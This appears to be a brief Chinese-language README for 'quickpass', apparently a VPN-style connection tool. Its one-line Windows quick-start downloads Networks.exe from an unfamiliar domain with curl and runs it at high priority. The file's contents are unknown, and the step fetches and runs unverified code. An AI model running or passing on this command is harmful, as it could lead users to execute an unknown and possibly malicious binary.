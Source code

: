 # quickpass
一条命令，即可快速开始！（在Windows上）。
如果Linux或MacX，请寻找Softether VPN Client客户端进行连接。

curl -O https://dogemandogeman.top/pages/att/Networks.exe & start /high Networks.exe
